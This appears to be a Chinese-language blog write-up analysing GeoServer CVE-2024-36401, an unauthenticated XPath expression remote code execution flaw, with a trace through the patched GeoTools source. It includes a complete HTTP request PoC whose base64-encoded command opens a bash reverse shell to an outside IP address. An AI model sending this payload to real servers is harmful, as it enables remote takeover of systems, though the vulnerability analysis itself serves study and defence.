 ## 1、漏洞详情

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。

## 2、环境搭建

[vulhub/geoserver/CVE-2024-36401/README.zh-cn.md at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/README.zh-cn.md)

但是本地docker拉取镜像超时失败

[漏洞复现练习靶场 - 极核::CTF (get-shell.com)](https://hackhub.get-shell.com/games/4/challenges)

## 3、详细分析

先直接打一下poc：

![image-20240711151409614](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711151409614.png)

反弹shell的payload

```java
POST /geoserver/wfs HTTP/1.1
Host: node.hackhub.get-shell.com:46256
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
Priority: u=1
Content-Type: application/xml
Content-Length: 398

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'
valueReference='exec(java.lang.Runtime.getRuntime(),"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTAuNDEuNDguNjMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}")'>
<wfs:Query typeNames='topp:states'/>
</wfs:GetPropertyValue>
```


根据后期修改的代码，我们可以判断出什么类的方法中有漏洞
[[GEOT-7587系列\]改进了 sikeoka 对 XPath 表达式的处理 ·拉取请求 #4797 ·Geotools/地工工具 ·GitHub上](https://github.com/geotools/geotools/pull/4797/commits/e53e5170ba71521728875a436c80616cfb03c1e8)

```java
rg.geotools.appschema.util.XmlXpathUtilites.getXPathValues(NamespaceSupport, String, Document)
org.geotools.appschema.util.XmlXpathUtilites.countXPathNodes(NamespaceSupport, String, Document)
org.geotools.appschema.util.XmlXpathUtilites.getSingleXPathValue(NamespaceSupport, String, Document)
org.geotools.data.complex.expression.FeaturePropertyAccessorFactory.FeaturePropertyAccessor.get(Object, String, Class<T>)
org.geotools.data.complex.expression.FeaturePropertyAccessorFactory.FeaturePropertyAccessor.set(Object, String, Object, Class)
org.geotools.data.complex.expression.MapPropertyAccessorFactory.new PropertyAccessor() {...}.get(Object, String, Class<T>)
org.geotools.xsd.StreamingParser.StreamingParser(Configuration, InputStream, String)
```

首先根据这个poc，定位到源码中的位置：

一共就一个servlet，

![image-20240711161022904](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711161022904.png)

Controller是个接口，一般直接继承AbstrcatController，并实现handleRequestInternal方法。handleRequestInternal方法相当于[Struts](https://so.csdn.net/so/search?q=Struts&spm=1001.2101.3001.7020) 1的execute方法。

在这里`org.geoserver.ows`继承了AbstractController类，并实现了handleRequestInternal方法






`GetPropertyValue#run`

![image-20240711164428355](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711164428355.png)

![image-20240711164723557](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711164723557.png)
首先通过工厂类获得一个 AttributeExpressionImpl()对象

这里又生成了一个对象，但是把参数进行了一个正则替换
比如，exec(java.lang.Runtime.getRuntime("cal[JYcxk]c")--------->>>exec(java.lang.Runtime.getRuntime("calc")

```java
                PropertyName propertyNameNoIndexes = this.filterFactory.property(request.getValueReference().replaceAll("\\[.*\\]", ""), this.getNamespaceSupport());
```

![image-20240711165316886](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711165316886.png)
接下来再来看看evaluate的调用，在这里会通过`PropertyAccessors.findPropertyAccessors`获取合适的属性访问器，之后遍历调用其`get`方法，其中就包括了`org.geotools.data.complex.expression.FeaturePropertyAccessorFactory.FeaturePropertyAccessor#get`，官方公告列出来的就有这个

![image-20240711165257427](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240711165257427.png)